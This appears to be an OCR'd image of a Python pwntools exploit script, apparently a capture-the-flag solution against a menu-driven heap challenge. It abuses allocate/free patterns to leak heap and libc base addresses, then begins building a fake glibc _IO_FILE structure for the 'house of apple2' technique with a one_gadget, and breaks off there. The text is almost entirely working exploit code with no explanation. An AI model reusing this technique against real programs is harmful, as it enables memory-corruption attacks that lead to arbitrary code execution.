 ```python
    p.sendlineafter('input idx:', str(index))
    p.send(content)

def delete(index):
    menu(2)
    p.sendlineafter('input idx:', str(index))

for i in range(12):
    add(i, 0x80, 'aaaa')

for i in range(7):
    delete(i)

delete(7)
delete(9)

add(0x14, 0x400, 'aaaa')

for i in range(7):
    add(0, 0x80, 'aaaa')

add(7, 0x80, 'aaaaaaaa')
show(7)

p.recvuntil('a' * 8)
heapbase = u64(p.recv(6).ljust(8, b'\x00')) - 0x7a0
lg('heapbase', heapbase)

add(0, 0x80, 'aaaa')

for i in range(10):
    add(i, 0x80, 'aaaa')

for i in range(7):
    delete(i)

delete(7)
add(0x14, 0x400, 'aaaa')

for i in range(7):
    add(0, 0x80, 'aaaa')

add(7, 0x80, 'aaaaaaaa')
show(7)

p.recvuntil('a' * 8)
libcbase = u64(p.recv(6).ljust(8, b'\x00')) - 0x21ad60
lg('libcbase', libcbase)

def house_of_apple2(fake_IO_file_addr):
    fake_IO_file = flat(
        {
            0x18: 1,    # _IO_write_ptr
            0x58: one_gadget,   # chain
            0x78: _IO_stdfile_2_lock,   # _lock
            0x90: fake_IO_file_addr,    # _IO_wide_data
            0xc8: _IO_wfile_jumps,  # vtable
            0xd0: fake_IO_file_addr,    # fake wide vtable
        }, filler='\x00'
    )

    return fake_IO_file

```